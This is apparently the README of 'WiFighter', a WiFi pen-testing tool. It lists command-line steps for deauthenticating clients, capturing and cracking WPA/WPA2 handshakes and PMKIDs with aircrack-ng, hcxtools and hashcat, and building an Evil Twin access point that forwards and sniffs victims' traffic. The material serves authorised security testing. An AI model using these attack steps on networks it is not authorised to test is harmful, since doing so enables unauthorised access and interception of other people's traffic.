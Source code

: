 # WiFighter
Easy-to-use python WiFi pen-testing tool for OpenSUSE Tumbleweed.
Utilizes aircrack-ng, hcxtools, hashcat and it's own mechanisms for executing common attacks. 

--------------------------------------------------------------------

## Installation 

**Creating python virtual enviroment**

Clone the project
```sh
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```sh
cd WiFighter
```

Make the install script executable
```sh
sudo chmod +x install.sh
```

Run install script
```sh
sudo ./install.sh
```

Run the tool
```sh
sudo wifighter
```

--------------------------------------------------------------------

## TO DO & BUGS
- print error if no network card found
- Make sure script is runned with sudo
- MITM Evil Twin

## Future visions
- choose more wordlists for cracking
- cracking with hashcat GPU
- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions?
- device info in reports
- monitor start listen command error still switches the NIC to monitor

--------------------------------------------------------------------

### 1. WPA/WPA2 Handshake Crack using aircrack-ng

**Monitor mode**

Set interface to monitor
```sh
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```sh
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```sh
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```sh
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```sh
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```sh
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```sh
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```sh
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```sh
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake**

```sh
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

--------------------------------------------------------------------

### PMKID Attack
Compile needed hcxtools & install it's dependencies
```sh
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools

sudo zypper in *gcc *libopenssl3 libopenssl-devel *libz1 *libz-devel *libcurl4 libcurl-devel *pkgconf-pkg-config

sudo make install


git clone https://github.com/ZerBea/hcxdumptool.git  # Install version 6.2.6
cd hcxdumptool

sudo make install
```

Install and setup hashcat
```sh
sudo zypper in hashcat pocl
```


Put wireless NIC into monitor
```sh
wifighter start <INTERFACE>
```

Capture PMKID
```sh
sudo hcxdumptool -o <OUTPUT_CAPTURE_FILE> -i <INTERFACE> -c <CHANNEL> --enable_status=3 --filtermode=2 --filterlist_ap=<TARGET_AP_MAC>
```

Convert capture into the hash format
```sh
hcxpcapngtool -o <OUTPUT_PMKID_HASH_FILE> <CAPTURED_PMKID>
```

Crack the PMKID
```sh
sudo hashcat -D 1 -a 0 -m 22000 --potfile-path=/dev/null <PMKID_HASH_FILE> <WORDLIST> -o <OUTPUT_FILE>
```

--------------------------------------------------------------------

### Evil Twin

**-MITM/Sniffer- Mode**

Install dependencies
```sh
sudo zypper in hostapd dhcp-server iptables
```

Set dhcp server's listenning interface
```sh
nano /etc/sysconfig/dhcpd 
```
```sh
DHCPD_INTERFACE="<EVIL_AP_INTERFACE>"
```

Set dhcp server's configuration
```sh
nano /etc/dhcpd.conf
```
```sh
option domain-name "local";
option domain-name-servers 8.8.8.8, 8.8.4.4;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.100.0 netmask 255.255.255.0 {
    range 192.168.100.2 192.168.100.254;
    option subnet-mask 255.255.255.0;
    option routers 192.168.100.1;
    option broadcast-address 192.168.100.255;
}
```

Set evil AP's configuration
```sh
nano /etc/hostapd.conf
```
```sh
interface=<EVIL_AP_INTERFACE>
driver=nl80211

ssid=<SSID>
channel=1

hw_mode=g
ieee80211n=1
wme_enabled=1
macaddr_acl=0
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=<PASSWORD>
rsn_pairwise=CCMP
```

Configure evil AP's interface
```sh
sudo ip addr add 192.168.100.1/24 dev <EVIL_AP_INTERFACE>
```

Enable internet connection for clients
```sh
sudo iptables -t nat -A POSTROUTING -s 192.168.100.0/24 -o <INTERNET_INTERFACE> -j MASQUERADE

sudo iptables -A FORWARD -i <EVIL_AP_INTERFACE> -o <INTERNET_INTERFACE> -j ACCEPT

sudo iptables -A FORWARD -i <INTERNET_INTERFACE> -o <EVIL_AP_INTERFACE> -m state --state RELATED,ESTABLISHED -j ACCEPT

sudo tee | echo 1 > /proc/sys/net/ipv4/ip_forward
```

Prevent NetworkManager from managing the evil ap's interface
```sh
sudo nmcli dev set <EVIL_AP_INTERFACE> managed no
```

Start the fake AP
```sh
systemctl restart dhcpd
systemctl restart hostapd
```

Sniff <EVIL_INTERFACE> traffic using tshark/wireshark/tcpdump...

Return back to normal state
```sh
systemctl stop dhcpd
systemctl stop hostapd
sudo iptables -F
sudo iptables -t nat -F
sudo tee | echo 0 > /proc/sys/net/ipv4/ip_forward
sudo nmcli dev set wlp99s0f3u2 managed yes
sudo ip addr del 192.168.100.1/24 dev <EVIL_AP_INTERFACE>
```

<br><br>

**-Captive portal- mode**



--------------------------------------------------------------------

### WPS Attack - Reaver
Dependencies
```sh
sudo zypper in aircrack-ng
```
```sh
pixiewps - GitHub
```
```sh
libpcap - Repo
```

--------------------------------------------------------------------